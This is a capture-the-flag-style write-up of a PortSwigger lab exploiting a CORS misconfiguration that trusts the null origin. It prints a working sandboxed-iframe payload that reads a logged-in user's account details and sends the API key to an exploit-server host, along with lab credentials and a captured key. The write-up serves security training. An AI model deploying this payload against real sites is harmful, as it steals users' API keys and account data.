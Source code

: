 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e7f68cc4-cdff-4d31-8099-22d989e5d970)

## Solution :

### Whitelisted null origin value -

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```
And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

Login to the website using credentials - wiener:peter.

Once logged in, we can see the API key of wiener.

The GET request to /accountDetails contains `Access-Control-Allow-Credentials` in the response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2d374179-95de-4ad6-ac5d-51e4b47ec62c)

 >> Note that there is no Access-Control-Allow-Origin header in response because the Origin header is not specified in the request.

If we give Origin: evil.com in request, we can see that in the response it does not contain any Access-Control-Allow-Origin: evil.com header. Which means evil.com is not in the whitelisted domains.

What happens if we try to give Origin: null in request?

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/173a5808-8da9-4342-b4df-58a564d9b24a)

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aa200b9032f228683c914b300e500fa.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0abe007c03e8220c831213c201dd0061.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```


This time we have the Access-Control-Allow-Origin: null header in the response. This means null is in the whitelisted domains.

Some applications might whitelist the null origin to support local development of the application.

So by this we can bypass CORS & retreive the API key of administrator.

Embedding script in iframe -

Scripts that originate from an iframe usually contains Origin: null.

So we need to embed our exploit script inside an iframe.

Script -

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/803326ce-0b99-4df1-812f-acdb6efefd76)


Api Key - `lIrKUOO6dwSdCYHnatVwoIeOD0OeFTAj`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/a1130655-8c39-4a48-8faf-e0ee235e04ae)



Go and submit solution to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/48a42c4b-8596-4c70-b484-0066e53aae0e)
